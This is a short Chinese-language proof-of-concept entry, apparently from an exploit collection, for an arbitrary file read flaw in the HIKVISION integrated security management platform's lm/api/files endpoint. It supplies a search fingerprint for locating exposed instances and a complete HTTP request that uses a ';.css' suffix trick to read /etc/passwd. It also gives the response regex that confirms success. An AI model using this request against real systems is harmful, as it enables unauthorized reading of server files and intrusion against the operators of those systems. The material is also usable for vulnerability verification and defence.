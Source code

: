 ﻿# HIKVISION 综合安防管理平台 files 任意文件读取

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：HIKVISION 综合安防管理平台 lm/api/files 接口存在任意文件读取漏洞

> 漏洞特征：app="HIKVISION-综合安防管理平台"

> 验证脚本：HTTP

```
GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
Connection: close
Accept-Encoding: gzip, deflate, br
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：HIKVISION 综合安防管理平台 files 任意文件读取.poc
